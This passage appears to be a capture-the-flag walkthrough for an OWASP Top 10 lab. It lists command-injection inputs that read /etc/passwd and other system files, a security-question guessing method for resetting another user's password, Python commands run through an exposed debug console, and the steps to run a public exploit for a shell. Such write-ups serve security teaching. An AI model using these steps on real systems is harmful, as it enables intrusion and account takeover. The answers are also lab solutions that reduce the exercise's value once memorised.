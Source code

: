 * Go to http://MACHINE_IP:82
* Submit `hello ; whoami`

**What is the user's shell set as?**

* Go to http://MACHINE_IP:82
* Submit `hello ; grep apache /etc/passwd | awk -F: '{print $7}'`

**What version of Alpine Linux is running?**

* Go to http://MACHINE_IP:82
* Submit `hello ; cat /etc/alpine-release`

## Task 11 Insecure Design

**Try to reset joseph's password. Keep in mind the method used by the site to validate if you are indeed joseph.**

* Go to http://MACHINE_IP:85/resetpass1.php
* Set username `joseph`
* Select security question "What is your favourite colour?"
* Try different colours until you succeed

**What is the value of the flag in joseph's account?**

* Go to http://MACHINE_IP:85/
* Login with username `joseph` and the new password
* Go to Private > Flag.txt

## Task 12 Security Misconfiguration

**What is the database file name (the one with the .db extension) in the current directory?**

* Go to http://MACHINE_IP:86/console
* Execute `import os; print(os.popen("ls -l").read())`

**Modify the code to read the contents of the app.py file, which contains the application's source code. What is the value of the secret_flag variable in the source code?**

* Go to http://MACHINE_IP:86/console
* Execute `import os; print(os.popen("head -5 app.py").read())`

## Task 15 Vulnerable and Outdated Components - Lab

**What is the content of the /opt/flag.txt file?**

* Go to http://MACHINE_IP:84
* Download the exploit from https://www.exploit-db.com/exploits/47887 and save it to `~/Desktop/exploit.py`
* Execute `python ~/Desktop/exploit.py http://MACHINE_IP:84`
* Answer `y` to `Do you wish to launch a shell here? (y/n)``
* Execute `cat /opt/flag.txt`

## Task 17 Identification and Authentication Failures Practical
